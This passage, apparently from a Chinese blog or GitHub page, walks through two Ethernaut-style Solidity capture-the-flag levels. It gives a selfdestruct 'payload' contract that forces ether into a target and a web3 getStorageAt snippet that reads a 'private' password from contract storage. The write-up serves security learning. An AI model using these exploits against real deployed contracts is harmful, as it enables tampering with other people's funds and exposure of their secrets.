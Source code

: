 ```javascript
pragma solidity ^0.4.18;

contract Force{

}

contract payload{
    function payload() payable{}
    address addr_force = 0x0ad6047bf65c599bf68fbbc0372c3923280f2a66;
    function hit() public {
        selfdestruct(addr_force);
    }
}
```
&emsp;&emsp;这样一来，一执行hit()函数payload就凉凉，然后钱就打到了Force里面了，有没有一种舔狗的感觉...  

---

#### 8. Vault  

> **Target**: 解锁  

&emsp;&emsp;这道题主要考察了如何通过**web3**的**web3.eth.getStorageAt()**接口来查看区块上的信息。 


```javascript  
pragma solidity ^0.4.18;

contract Vault {
  bool public locked;
  bytes32 private password;

  function Vault(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

&emsp;&emsp;我们只需要通过**unlock()**函数就能修改locked的值，getStorageAt()的用法如下：  

> web3.eth.getStorageAt(addressHexString, position [, defaultBlock] [, callback])  

&emsp;&emsp;我们需要使用一个回调函数来打印出相关数据：  

```javascript
web3.eth.getStorageAt(contract.address,1,function(x,y){
    var result = web3.toAscii(y);
    alert(result);
        });
```

---